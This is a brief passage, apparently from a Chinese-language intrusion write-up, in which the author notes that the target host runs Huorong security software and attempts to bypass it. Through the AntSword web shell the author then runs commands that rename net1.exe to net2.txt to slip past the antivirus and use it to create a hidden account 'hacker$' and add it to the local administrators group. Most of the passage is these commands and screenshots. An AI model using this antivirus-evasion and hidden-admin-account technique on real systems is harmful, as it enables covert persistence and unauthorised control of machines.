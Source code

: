 ![image-20220616114046893453-1655884130831520.png](img/Untitled.assets/1831fe8f8e4fe5d4c05b6663d9b2b896.png)

主机存在火绒安全软件，尝试绕过：

![image-20220616114114890213-1655884132219876.png](img/Untitled.assets/93080f16ad1ba34e1a077c5090631f0f.png)

蚁剑中执行命令创建隐藏用户：

```
cd C:\Windows\System32

copy net1.exe net2.txt

net2.txt user hacker$ admin /add  //添加隐藏用户

net2.txt localgroup administrators hacker$ /add   //加入到管理员组中
```
